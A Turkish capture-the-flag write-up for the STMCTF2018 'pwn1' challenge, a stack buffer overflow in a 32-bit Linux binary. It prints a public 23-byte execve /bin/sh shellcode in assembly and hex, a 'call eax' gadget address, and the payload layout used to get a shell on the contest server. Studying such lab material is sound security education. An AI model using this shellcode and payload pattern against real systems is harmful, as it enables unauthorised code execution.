 ## STMCTF2018 pwn1 sorusu çözümü

Çoğu soruda olduğu gibi bir dosya verildi ve hemen altında sunucu adresi. Bağlantı için ise nc verilmiş. Sunucunun adresi şu an aklımda olmadığı için kısaca x.x.x.x kullanabiliriz. Tabi şu an için bağlantı mümkün olmadığı için biz local olarak sahte bir flag yapıp bunu kullanacağız.


Bu soruyu görünce hemen karşı sunucuda bu programın barındırdığı kodların çalıştığını anlıyoruz. local olarak çözüp sunucuyu pwn edeceğiz.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/1.png)

Dosyaya hızlıca baktığımızda 32 bit linux ELF formatında olduğunu görüyoruz.

İlk önce hemen blind bir şekilde başlatıp ne yapıyor ne ediyor görelim.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/2.png)

Hiç bişey olmadı. Basit ve ilk tahmin ile acaba overflow olabilir mi diye biraz uzun bir input girelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/3.png)

Evet! Overflow var. Hatta trace edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/4.png)

Bundan sonrası pattern bulma. Input kısa olduğu için çok uğraşmaya gerek yok yarısı A olacak ve yarısı B olacak şekilde birkaç denemeden sonra patternin 28 olduğu ortaya cıkıyor. Yani 28 uzunluğunda pattern girdikten sonra return adresi verebiliyoruz. Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/5.png)

Evet artık EIP bizim kontrolümüz altında. Öncelikle NX(Non-executable stack) var mı diye kontrol edebiliriz, fakat yarışma açısından konulmadığını tahmin etmek zor değil:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/6.png)

Şimdi biraz derine inelim ve neler olduğuna biraz bakalım. Bunun için gdb ile debug edip return adresinin olduğu noktada tam olarak register durumları nedir bakalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/7.png)

Bu resimden anladığımız önemli iki şey:

* ESP = EAX+ 28(pattern ‘A’) + RET(return address ‘B’)
* Girdiğimiz input EAX registerında saklanmış

Bu noktada aklımızda gelen şey EAX registerına atlasak yazdığımız kodlar çalışır. Shellcode yerleştirip oraya atlamalıyız. Bunun için ise bize bunu sağlayacak bir tür gadget lazım. Programın kendi içinde bir tür call varsa işimizi tamamen görür. Bir arama yapalım bu dosya üzerinde:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/8.png)

Tam da istediğimiz şey varmış. 0x8048373 adresi işimizi görür.

Şimdi şöyle bir durum var(yazının ilerleyen kısmında bunu da aşacağız) bizim elimizde 28 var sonra ise return address ordan kesiyor. Bize 28’den kısa bir shellcode lazım. Google’da “Linux x86 shellcode” diye aratırsak çok kısa shellcodelar olduğunu görürüz. Kendimiz de yazabiliriz fakat yarışmada her dakikanın önemli olduğunu hesaba katarsak Google daha hızlı.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/shell.png)

Sadece 23 byte! Gayet güzel oldu. 

```c
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

http://shell-storm.org/shellcode/files/shellcode-827.php

Shellcode test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/9.png)

Gayet güzel çalışıyor.
NOT: Test etmek için x86 kullanmak için -m32 parametresi ekledik sonuçta hedefimiz x86 ve yazının başında değindiğimiz nokta olan NX’i devre dışı bırakmak için -z execstack ekledik. Onu eklemezsek çalıştırdığımızda hata alırız. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/10.png)

Elimizde ihtiyacımız olan şeyler var şimdi payload build edelim. 

İlk önce shellcode yazıyoruz ve 5 byte padding ekliyoruz (23 + 5) ve sonra ise return adresi olarak “call eax” adresini verirsek oraya atlayıp hemen EAX’a atlayacak. Orda ise shellcode var. 

Shellcode + “A”*5 + 0x8048373

Not: little-endian dolayısıyla tersten yazmamız lazım.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/11.png)

Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/12.png)

Hata aldık! 

Bu konuda tecrübeli arkadaşlarımız zaten hemen nedenini anlamıştır. Yukarda da aslında ipucu vardı. Yazının yukarısında burda 2 önemli şey var demiştik. Bir tanesi ESP = EAX + 32. Yukarda shellcode fotoğrafında 5 adet push olduğunu görüyoruz. Bunu tam anlayamayan arkadaşlar debug edip A harflerini girdikten sonra memory set yaparlarsa exploiti manuel yerleştirip return adresini call eax yaparlarsa ve shellcode executiondan itibaren izlerlerse her push operationdan sonra shellcode’un geriden değiştiğini görürler. Bizim tek yapmamız gereken şey shellcode’un başına esp’ye eklemek:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/13.png)

```asm
section .text
	global _start

_start:

	add	esp,36
```

Bize lazım olan şey 3 byte ve artık shellcodemuz 23+3 = 26 byte uzunlukta. Yeni payload:

Addesp + shellcode + 2bytepadding + ret

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/14.png)

NOT: utf8 coding unutmayın.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/15.png)

x.x.x.x girmek.

Üstünde oynamak

28 byte şekilli afilli birşey için kısa fakat bu durumu aşmak için lea kullanabiliriz. Return olduktan sonra call eax yapacak eğer ki biz oraya:

```asm
	lea	edx, [eax+40]
	call	edx
```

Gibi birşey yaparsak return adresinden sonraya atlarız oraya istediğimiz kadar şey yapabiliriz. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/16.png)

Flag.txt olduğunu bildiğimden flag.txt yazdım.
